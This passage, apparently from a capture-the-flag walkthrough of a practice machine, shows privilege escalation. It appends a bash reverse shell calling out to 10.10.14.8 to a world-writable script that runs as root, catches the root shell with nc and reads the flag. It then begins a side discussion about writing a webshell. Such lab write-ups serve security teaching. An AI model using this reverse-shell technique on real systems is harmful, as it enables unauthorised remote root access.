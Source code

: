 It’s running `/usr/bin/timer_backup.sh`, a shell script, which is writable:

```

pericles@time:/$ ls -l /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Feb  9 22:15 /usr/bin/timer_backup.sh

```

### Initial Shell

I’ll add a reverse shell to the end of the script:

```

pericles@time:/$ echo -e '\nbash -i >& /dev/tcp/10.10.14.8/443 0>&1' >> /usr/bin/timer_backup.sh

```

Very quickly, I’ve got a root shell at `nc`:

```

oxdf@parrot$ sudo nc -lnvp 443
listening on [any] 443 ...                                     
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 58304
bash: cannot set terminal process group (65912): Inappropriate ioctl for device
bash: no job control in this shell                        
root@time:/#

```

However, the shell dies after like 10 seconds. That’s plenty to get the flag:

```

root@time:/# cd root
root@time:/root# cat root.txt
ecb18a98************************

```

I’ll look at getting a better shell in [Beyond Root](#beyond-root).

## Beyond Root

### Writing Via RCE

When testing RCE for the initial foothold, I went with a `ping`. I was already confident that it was starting to work, since the SQL script was being requested from my supplied URL, and that seemed like a solid way to test RCE and connectivity back. But as I started to write in my notes that I couldn’t write a file and see it, I wondered - is that true? There’s a webserver after all. Perhaps I could write a webshell (not really sure why I need once since I already have RCE and a reverse shell, but what if a firewall were blocking all outbound?).

I tried the payload from the site (`id > exploited.txt`), but nothing showed up at the web root or any folders I knew about. I cheated a bit, since I had a shell already, and checked.
